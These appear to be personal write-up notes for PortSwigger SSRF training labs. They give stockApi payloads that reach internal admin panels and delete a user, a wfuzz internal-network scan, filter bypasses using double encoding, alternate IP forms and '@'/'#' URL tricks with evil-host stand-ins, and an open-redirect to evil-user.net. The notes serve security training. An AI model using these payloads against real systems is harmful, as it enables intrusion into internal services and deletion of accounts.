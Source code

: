 
**Legit request:**

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```


**attack vector:**

`stockApi=`

**Attack req:**

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 

stockApi=http://localhost/admin
```

`stockApi=http://127.0.0.1/admin`

**Lab:**

`stockApi=http%3A%2F%2Flocalhost%2Fadmin`

`stockApi=http%3A%2F%2Flocalhost%2Fadmin%2Fdelete%3fusername%3dcarlos`


**wfuzz to scan network:**

```
wfuzz -c -z range,1-255 -d "stockApi=http://192.168.0.%s:8080/admin" 
-H "Host: 0a19009f0465ca8f80355d4600e60008.web-security-academy.net" 
-H "Cookie: session=ToNm50JKClOnHmBKM5w2IyXeKlxutFCL" 
-H "Content-Type: application/x-www-form-urlencoded" 
-H "Sec-Ch-Ua-Platform: \"Linux\"" 
-H "Accept-Language: en-US,en;q=0.9" 
-H "Sec-Ch-Ua: \"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"" 
-H "Sec-Ch-Ua-Mobile: ?0" 
-H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36" -H "Accept: */*" 
-H "Origin: https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net" 
-H "Sec-Fetch-Site: same-origin" 
-H "Sec-Fetch-Mode: cors" 
-H "Sec-Fetch-Dest: empty" 
-H "Referer: https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net/product?productId=13" 
-H "Accept-Encoding: gzip, deflate, br" 
-H "Priority: u=1, i" 
https://0a19009f0465ca8f80355d4600e60008.web-security-academy.net/product/stock
```


**SSRF hacktricks:**

#### blacklist-based input filters

- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
 
** lab:**

`stockApi=http%3A%2F%2Flocalhost%2Fadmin` did not work

trying `localhost` --> `127.0.0.1` & `127.1`

`stockApi=http%3A%2F%2F127.0.0.1%2Fadmin`
`stockApi=http%3A%2F%2F127.1%2Fadmin`

trying double URL encoding for admin path

`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e`

`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e`

- double encoding worked `localhost` --> `127.1`   |    `admin` --> `%2561%2564%256d%2569%256e`

- deleting user account carlos
`stockApi=http%3A%2F%2F127.1%2F%2561%2564%256d%2569%256e%2Fdelete%3fusername%3dcarlos`




#### whitelist-based input filters


- You can embed credentials in a URL before the hostname, using the `@` character. For example:
    `https://expected-host:fakepassword@evil-host`
- You can use the `#` character to indicate a URL fragment. For example:
    `https://evil-host#expected-host`
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
    `https://expected-host.evil-host`
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request. You can also try [double-encoding](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-double-url-encoding) characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
- You can use combinations of these techniques together.


**Lab:**


blocked reqs:

`stockApi=http%3A%2F%2Fstock.weliketoshop.net@localhost%2F%2561%2564%256d%2569%256e`
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%2540localhost%2F%2561%2564%256d%2569%256e`
`stockApi=http%3A%2F%2Fstock.weliketoshop.net%2532localhost%2F%2561%2564%256d%2569%256e`

`stockApi=http%3A%2F%2Flocalhost@stock.weliketoshop.net%2F%2561%2564%256d%2569%256`




`stockApi=http%3A%2F%2Flocalhost%2523@stock.weliketoshop.net%2F%2561%2564%256d%2569%256e%2Fdelete%3fusername%3dcarlos`


```
http://localhost#@stock.weliketoshop.net/admin
```

- The `#` appears between `localhost` and `@stock.weliketoshop.net/admin`, which is unusual. The fragment identifier typically follows the domain, but `localhost#` would make the rest of the URL after `#` be treated as part of the fragment (i.e., the server and path after `#` might not be recognized as part of the URL at all).

#### What’s likely happening here:

- **Malformed URL**: The `#` symbol is causing the part after it to be treated as a **fragment**, meaning the `@stock.weliketoshop.net/admin` part would be ignored by the server and instead processed client-side as a fragment identifier.
- **The `@` symbol**: If there was supposed to be authentication info (username and password), this part would typically go before the `@` symbol, but it's not formatted properly.





Now instead of fetching the URL directly we may also utilize the redirect option if one if available

`/product/nextProduct?currentProductId=6&path=http://evil-user.net`


